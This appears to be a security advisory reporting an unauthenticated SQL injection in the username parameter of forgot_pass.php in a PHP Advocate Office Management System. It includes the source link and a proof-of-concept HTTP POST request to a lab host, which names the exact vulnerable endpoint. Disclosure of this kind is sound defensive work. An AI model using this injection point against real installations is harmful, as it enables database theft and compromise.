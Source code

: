 

Advocate office management has an SQL injection vulnerability that could be exploited by an attacker to steal information or compromise a database without authentication.





Source code address：https://www.sourcecodester.com/php/17280/advocate-office-management-system-free-download.html



The vulnerability is located in the /control/forgot_pass.php file, you can see that the code is to receive POST request verify, username parameters, and username assigned to $text_email directly into the database for operation, without any restrictions. Cause loophole problem.

![image-20250314122524056](images/image-20250314122524056.png)



Vulnerability verification：

```
POST /office/kortex_lite/control/forgot_pass.php HTTP/1.1
Host: 192.168.80.152
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: keep-alive
Content-Type: multipart/form-data; boundary=---------------------------29138259241211
Content-Length: 250

-----------------------------29138259241211
Content-Disposition: form-data; name="username"

111
-----------------------------29138259241211
Content-Disposition: form-data; name="verify"

Verify
-----------------------------29138259241211--

```

![image-20250314122643288](images/image-20250314122643288.png)



































